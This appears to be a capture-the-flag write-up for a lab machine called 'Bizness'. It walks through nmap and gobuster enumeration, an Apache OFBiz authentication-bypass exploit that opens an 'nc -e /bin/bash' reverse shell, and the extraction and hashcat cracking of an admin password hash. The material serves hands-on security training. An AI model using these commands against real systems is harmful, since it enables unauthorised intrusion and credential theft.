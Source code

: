 # Bizness 

First we start enumerating with nmap, lets take a closer look to the ports.

```bash
sudo nmap --open --min-rate 5000 -Pn -sS 10.10.11.252 -oN ports
```

After the scan we see that *22, 80, 443* ports are open so we proceed with a futher scanning on those ports.

```bash
sudo nmap -sVC -p22,80,443 10.10.11.252 -oN scan
```

As usual we see that port 22 is running on *OpenSSH*, 80, 443 are running on *HTTP* so lets take a closer look to *https://bizness.htb/* because nmap reported its running on port 80.

It doesn't load so maybe it's virtual hosting, lets try addint it to our machine.

```bash
sudo echo "10.10.11.252 bizness.htb" >> /etc/hosts
```

It seems a pretty normal website, there is a few forms but nothing interesting, the email one tries to post something but its handleded by a REGEX so there is nothing to do with it.

## Gobuster

Lets try to enumerate subdomains so we can find something interesting.

We try at first to enumerate all responses but we get an error, so let's try it removing response 302.

```bash
sudo gobuster dir -u https://bizness.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -b 302 
```

Gobuster reports

```bash
/META-INF             (Status: 404) [Size: 682]
/WEB-INF              (Status: 404) [Size: 682]
/control              (Status: 200) [Size: 34633]
/index.html           (Status: 200) [Size: 27200]
/meta-inf             (Status: 404) [Size: 682]
/select               (Status: 404) [Size: 757]
/web-inf              (Status: 404) [Size: 682]
```

Let's take a further look on */control*.


It displays an error message

> org.apache.ofbiz.webapp.control.RequestHandlerException: Unknown request [null]; this request does not exist or cannot be called directly.

So we make a simple google search on it

> org.apache.ofbiz.webapp.control.RequestHandlerException vulnerabilities

We find this article 

[CVE-2023-49070 - How it works / Requirements](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467)


[CVE-2023-49070 - Exploit](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit)


Lets try it out.

# Requirements

* Install java with the script `./javainstall.sh`
* [ysoserial-all.jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

```bash
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```


# Exploit

After a while we found someone made the script for OFBiz

[Apache-OFBiz-Authentication-Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git)

```bash
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash <your_ip> <your_prefered_port>'

# And don't forget to listen to your port

nc -lnvp <your_prefered_port>
```


With

```bash
ofbiz@bizness:$ cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c6650.dat
``` 

We find, so lets try to test it out on the decript the hash

admin$"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN

Lets use

[CyberChef](https://gchq.github.io/CyberChef/)

To sanitize our key **uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN**

hashcat -m 120 -a 0 -d 1 "b8fd3f41a541a435857a8f3e751cc3a91c1743621834:d" /usr/share/wordlists/rockyou.txt
